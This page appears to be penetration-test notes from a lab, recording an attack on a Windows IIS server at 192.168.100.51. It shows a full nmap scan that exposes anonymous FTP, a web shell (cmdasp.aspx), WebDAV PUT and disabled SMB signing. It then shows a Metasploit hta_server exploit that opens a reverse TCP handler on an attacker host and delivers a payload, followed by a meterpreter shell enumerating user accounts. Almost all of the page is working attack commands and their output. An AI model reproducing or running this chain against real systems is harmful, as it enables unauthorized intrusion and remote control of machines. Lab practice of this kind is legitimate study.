


## 192.168.100.51/Winserver-02

```bash
Nmap scan report for ip-192-168-100-51.us-west-1.compute.internal (192.168.100.51)
Host is up (0.00041s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-19-22  02:25AM       <DIR>          aspnet_client
| 04-19-22  01:19AM                 1400 cmdasp.aspx
| 04-19-22  12:17AM                99710 iis-85.png
| 04-19-22  12:17AM                  701 iisstart.htm
|_04-19-22  02:13AM                   22 robots.txt.txt
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-svn-info: ERROR: Script execution failed (use -d to debug)
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/8.5
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Thu, 29 Jan 2026 01:09:54 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Directory Listing: 
|     http://ip-192-168-100-51.us-west-1.compute.internal/
|     http://ip-192-168-100-51.us-west-1.compute.internal/aspnet_client/
|     http://ip-192-168-100-51.us-west-1.compute.internal/cmdasp.aspx
|     http://ip-192-168-100-51.us-west-1.compute.internal/iis-85.png
|     http://ip-192-168-100-51.us-west-1.compute.internal/iisstart.htm
|_    http://ip-192-168-100-51.us-west-1.compute.internal/robots.txt.txt
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=WINSERVER-02
| Not valid before: 2026-01-27T20:59:50
|_Not valid after:  2026-07-29T20:59:50
|_ssl-date: 2026-01-29T01:10:02+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WINSERVER-02
|   NetBIOS_Domain_Name: WINSERVER-02
|   NetBIOS_Computer_Name: WINSERVER-02
|   DNS_Domain_Name: WINSERVER-02
|   DNS_Computer_Name: WINSERVER-02
|   Product_Version: 6.3.9600
|_  System_Time: 2026-01-29T01:09:54+00:00
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49169/tcp open  msrpc              Microsoft Windows RPC
49170/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 02:38:41:97:DF:1D (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/29%OT=21%CT=1%CU=41660%PV=Y%DS=1%DC=D%G=Y%M=023841%T
OS:M=697AB36B%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=I%CI=I%II=I
OS:%SS=S%TS=7)OPS(O1=M2301NW8ST11%O2=M2301NW8ST11%O3=M2301NW8NNT11%O4=M2301
OS:NW8ST11%O5=M2301NW8ST11%O6=M2301ST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000
OS:%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M2301NW8NNS%CC=Y%Q=)T1(R=Y%D
OS:F=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0
OS:%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=
OS:A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=
OS:Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=A
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 1 hop
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-29T01:09:55
|_  start_date: 2026-01-28T20:59:41
|_nbstat: NetBIOS name: WINSERVER-02, NetBIOS user: <unknown>, NetBIOS MAC: 02:38:41:97:df:1d (unknown)
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.41 ms ip-192-168-100-51.us-west-1.compute.internal (192.168.100.51)
```


```bash
msf6 exploit(windows/misc/hta_server) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.100.5:4444 
[*] Using URL: http://192.168.100.5:8080/Bz97XUhU.hta
[*] Server started.
msf6 exploit(windows/misc/hta_server) > [*] 192.168.100.51   hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 192.168.100.51
```
```bash
meterpreter > shell
Process 1924 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    steven                   
The command completed with one or more errors.
```